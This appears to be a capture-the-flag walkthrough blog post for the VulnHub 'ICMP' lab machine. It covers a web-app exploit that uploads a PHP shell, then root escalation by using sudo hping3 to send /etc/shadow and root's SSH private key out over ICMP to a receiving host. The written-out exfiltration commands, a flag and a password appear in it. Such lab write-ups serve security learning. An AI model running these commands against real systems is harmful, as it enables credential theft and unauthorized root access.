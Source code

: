 ```yaml
---
title: ICMP
categories: [Proving Grounds, Play]
tags: [Public Exploit, hping3, PrivEsc]
image:
  path: https://www.vulnhub.com/media/img/entry/icmp-00.png
  width: "1200"
  height: "630"
  alt:  ICMP Machine 🖥️
---
```



## **Description ⤵️**

>
💡 [ICMP](https://www.vulnhub.com/entry/icmp-1,633/) ⤵️
<br>
Easy box, monitor resources
<br>
This works better with VirtualBox rather than VMware
{: .prompt-info }

### Let’s find the IP Address first >>

![171-1.png](/Vulnhub-Files/img/ICMP/171-1.png)

```bash
IP : 10.0.2.24
```
{: .nolineno}

## Port Scan Results ➡️

![171-2.png](/Vulnhub-Files/img/ICMP/171-2.png)

```bash
OPEN PORTS >
22   SSH
80   HTTP
```
{: .nolineno}

---

## Web Enumeration ⤵️

![171-3.png](/Vulnhub-Files/img/ICMP/171-3.png)

Lets check an exploit for this Monitoring System →

![171-4.png](/Vulnhub-Files/img/ICMP/171-4.png)

Now I executed the shell →

![171-5.png](/Vulnhub-Files/img/ICMP/171-5.png)

Lets load the reverse shell url →

URL → [http://10.0.2.24/mon/assets/data/usrimg/she_ll.php](http://10.0.2.24/mon/assets/data/usrimg/she_ll.php)

![171-6.png](/Vulnhub-Files/img/ICMP/171-6.png)

Response →

![171-7.png](/Vulnhub-Files/img/ICMP/171-7.png)

---

## SHELL ➡️

![171-8.png](/Vulnhub-Files/img/ICMP/171-8.png)

```bash
local.txt → c9db6c88939a2ae091c431a45fb1e59c
```
{: .nolineno}

![171-9.png](/Vulnhub-Files/img/ICMP/171-9.png)

![171-10.png](/Vulnhub-Files/img/ICMP/171-10.png)

![171-11.png](/Vulnhub-Files/img/ICMP/171-11.png)

So the crypt file is basically inside the devel file →

![171-12.png](/Vulnhub-Files/img/ICMP/171-12.png)

Now I got in with this password → `BUHNIJMONIBUVCYTTYVGBUHJNI`

![171-13.png](/Vulnhub-Files/img/ICMP/171-13.png)

Lets see how fox can leads me to root !

![171-14.png](/Vulnhub-Files/img/ICMP/171-14.png)

Lets use this ⤵️

![Untitled](/Vulnhub-Files/img/ICMP/Untitled.png)

It allowed a command to run as root. Since we must use ICMP mode, we cannot spawn a shell. However, we can transfer files to a different machine. We could try sending the shadow file or try to send an SSH private key.

Reference: [https://iphelix.medium.com/hping-tips-and-tricks-85698751179f](https://iphelix.medium.com/hping-tips-and-tricks-85698751179f)

For this, we require to set up hping3 in listen mode in the receiver machine, whereas from the target machine, we have to send the file.

IP of the receiver machine: 10.0.2.15

IP of the target machine: 10.0.2.60

On the receiver machine, we have to do the following.

```
{: .nolineno}
sudo hping3 -1 10.0.2.24 -9 signature -I eth0 --safe
```
{: .nolineno}

On the target machine, we should do as follows to get the shadow file.

```
{: .nolineno}
sudo /usr/sbin/hping3 --icmp 10.0.2.27 -e signature -E /etc/shadow -d 2000 -c 1
```
{: .nolineno}

This gave me output in my receiving machine. In the command above, -c 1 is the number of times the ping operation is performed. Since we have data size of 2000, we just need a single ping. However, you can completely change the value or exclude it to manually exit later.

![https://nepcodex.com/wp-content/uploads/2021/07/image-133-700x210.png](https://nepcodex.com/wp-content/uploads/2021/07/image-133-700x210.png)

I tried bruteforcing the password but had no luck. Next, I tried to get the private key using the same method.

```
{: .nolineno}
sudo /usr/sbin/hping3 --icmp 10.0.2.27 -e signature -E /root/.ssh/id_rsa -d 2000
```
{: .nolineno}

I got the response like the following. Thus, I decided to do the same in the two different SSH instances of the target machine.

![https://nepcodex.com/wp-content/uploads/2021/07/image-134.png](https://nepcodex.com/wp-content/uploads/2021/07/image-134.png)

On the target machines,

```
{: .nolineno}
# SSH instance 1
sudo hping3 --icmp 127.0.0.1 --listen signature --safe
```
{: .nolineno}

```
{: .nolineno}
# SSH instance 2
sudo hping3 --icmp 127.0.0.1 --sign signature --file /root/.ssh/id_rsa -d 4000 -c 2
```
{: .nolineno}

![https://nepcodex.com/wp-content/uploads/2021/07/image-135.png](https://nepcodex.com/wp-content/uploads/2021/07/image-135.png)

Finally, I got the proper response. Next, I copied it to a file on my local machine.

```
{: .nolineno}
vi id_rsa # Copy the key
chmod 600 id_rsa # This will restrict the private key permissions
```
{: .nolineno}

Lastly, I could log in to the system.

```
{: .nolineno}
ssh root@10.0.2.24 -i id_rsa
```
{: .nolineno}

![https://nepcodex.com/wp-content/uploads/2021/07/image-136.png](https://nepcodex.com/wp-content/uploads/2021/07/image-136.png)

---

> If you have any questions or suggestions, please leave a comment below.
Thank You ! 
{: .prompt-tip }